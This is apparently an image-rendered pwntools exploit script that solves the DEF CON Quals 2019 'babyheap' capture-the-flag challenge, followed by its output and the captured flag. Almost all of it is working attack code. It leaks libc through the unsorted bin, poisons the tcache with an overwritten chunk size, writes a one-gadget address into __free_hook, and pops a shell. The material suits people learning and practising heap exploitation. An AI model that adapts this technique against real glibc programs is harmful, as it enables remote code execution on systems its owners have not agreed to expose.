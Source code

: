 ```python
    p.sendlineafter("> ", "S")
    p.sendlineafter("> ", str(index))

with context.quiet:
    p = remote('babyheap.quals2019.oooverflow.io', 5000)
    #p = process('./babyheap', env = { 'LD_PRELOAD' : './libc.so' })

    libc=ELF('./libc.so')

    # Fill up tcache bins
    for i in range(9): #8+1, in order to prevent top chunk consolidation
        add(0x178, "")
    for i in range(8):
        free(i)

    # Leak libc
    add(0xf8, "")  #[0] Request is served by unsorted bin
    show(0)
    libc_leak = u64(p.recvline()[:-1].ljust(8, "\0"))
    libc_system = libc_leak - 0x191e40
    libc.address= libc_system-libc.symbols['system']
    oneGadget=libc.address+0xe2383
    print "Libc base: %s" % hex(libc.address)
    print "Libc __free_hook: %s" % hex(libc.symbols['__free_hook'])
    print "oneGadget: %s" % hex(oneGadget)

    # Clean up mess
    add(0xf8, "")  #[1] Clear out the unsortedbin
    add(0x178, "") #[2] Make room in tcachebin
    add(0x178, "") #[3] Make room in tcachebin

    # Tcache poisoning
    add(0xf8, "A") #[4]
    add(0xf8, "B") #[5]
    add(0xf8, "C") #[6]
    free(6)
    free(4)
    add(0xf8, "A"*0xf8 + "\x81") #[4] Overwrite [5] size
    free(5)
                                 #[5] Overwrite [6] fd pointer
    add(0x178, "B"*0x100 + p64(libc.symbols['__free_hook'])[0:6]) 

    # Overwrite
    add(0xf8, "") # Junk malloc
    add(0xf8, p64(oneGadget)[0:6]) # Write oneGadget to __free_hook

    # Pop shell by freeing, effectively calling oneGadget
    free(0)
    p.interactive()
```

```
$ ./exploit.py
Libc base: 0x7f4af3f3c000
Libc __free_hook: 0x7f4af41235a8
oneGadget: 0x7f4af401e383

$ cat flag
OOO{4_b4byh34p_h45_nOOO_n4m3}
```
